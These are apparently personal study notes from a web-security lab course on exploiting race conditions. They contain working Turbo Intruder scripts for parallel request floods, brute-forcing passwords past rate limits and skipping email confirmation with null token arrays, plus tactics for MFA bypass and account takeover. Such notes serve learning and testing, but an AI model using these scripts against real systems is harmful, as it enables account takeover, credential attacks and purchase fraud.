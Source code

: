 # Race Conditions
## Limit overrun race condition
If site blocks multiple usaeg of same request (for example redeeming of gift card more then one time), we can possibly try to enter into "race window" during which site processes request. In such case we can send nosequent request with very small pause between requests or send multiple requests in same time. In such way we can create multiple requests during which first request is proceeded and before server starts to block it.  
With burp we can achieve this adding multiple requests in repeater into a group and sending it in parallel (using request sending options)

## Turbo Intruder race condition
Single-packet attack:
1. Ensure that target supports HTTP/2
2. Set the engine `engine=Engine.BURP2` and `concurrentConnections=1` configuration options for the request engine
3. When queueing your requests, group them by assigning them to a named gate using the `gate` argument for the `engine.queue()` method.
4. To send all of the requests in a given group, open the respective gate with the `engine.openGate()` method.

```
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                            concurrentConnections=1,
                            engine=Engine.BURP2
                            )
    
    # queue 20 requests in gate '1'
    for i in range(20):
        engine.queue(target.req, gate='1')
    
    # send all requests in gate '1' in parallel
    engine.openGate('1')
```

## Bypassing bruteforce rate limit
When we are sending invalid credentials sequently, we can have problem with rate limit (captcha solving or blocking of login attempts).  
We can solve this with race condition and Turbo Intruder, sending many passwords at one time.  
```
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )
    passwords = wordlists.clipboard
    
    for password in passwords:
        engine.queue(target.req, password, gate='race1')

    engine.openGate('race1')


def handleResponse(req, interesting):
    table.add(req)

```
Here we are using password list from our clipboard.  

## Bypassing multi-step sequences
With race conditions we could be possibly able to bypass some mechanisms such as MFA, sending request to sensitive data BEFORE MFA is generated and checked.
```
POST /login
GET /admin
```
If we will send this requests quick enough, we could be potentially able to bypass MFA check which must arise right after login request.  

To check race conditions we can send group of requests in sequence (separate connections), then single-packet attack (parallel connections) and observe responses.  

## Multi-endpoint race conditions
We can potentially bypass basket confirmations in online shops if we will by something additionally during basket confirmation. So we have 1 item in basket and during order confirmation we are adding one more item and buying it together with first.  
Always try t oexploit race condition couple of times.  
Also try to send "warming" requests to another endpoints such as /home  
Also we can try to slow down the server sending multiple dummy hard requests to make race window bigger  

## Single-endpoint race condition
We can try to exploit update email or update password functionality with race condition. 
For example we can send request to change our e-mail to something available and in parallel send request to change our e-mail to one that is occupied by another user, cathing it's account. Or we can try to send request to update our password and in parallel send request to change another user's password.  

## Partial construction race conditions
This race condition appears when some objects initialized by server are initialized partially with null values (For example API key for user during registration could be null for small race window)  
In PHP and Ruby we are able to construct requests with null values like this: 
```
GET /api/user/info?user=victim&api-key[]= HTTP/2
```
So as example we can try to create user with unexisting email and skip confirmation stage when sending request to /confirm endpoint with null value
```

def queueRequests(target, wordlists):

    engine = RequestEngine(endpoint=target.endpoint,
                            concurrentConnections=1,
                            engine=Engine.BURP2
                            )
    
    confirmationReq = '''POST /confirm?token[]= HTTP/2
Host: YOUR-LAB-ID.web-security-academy.net
Cookie: phpsessionid=YOUR-SESSION-TOKEN
Content-Length: 0

'''
    for attempt in range(20):
        currentAttempt = str(attempt)
        username = 'User' + currentAttempt
    
        # queue a single registration request
        engine.queue(target.req, username, gate=currentAttempt)
        
        # queue 50 confirmation requests - note that this will probably sent in two separate packets
        for i in range(50):
            engine.queue(confirmationReq, gate=currentAttempt)
        
        # send all the queued requests for this attempt
        engine.openGate(currentAttempt)

def handleResponse(req, interesting):
    table.add(req)
```

## Time-based attacks
If server uses timestamp for encrypting password, we potentially could be able to reset password for two different suers if we send our requests at the same time.  
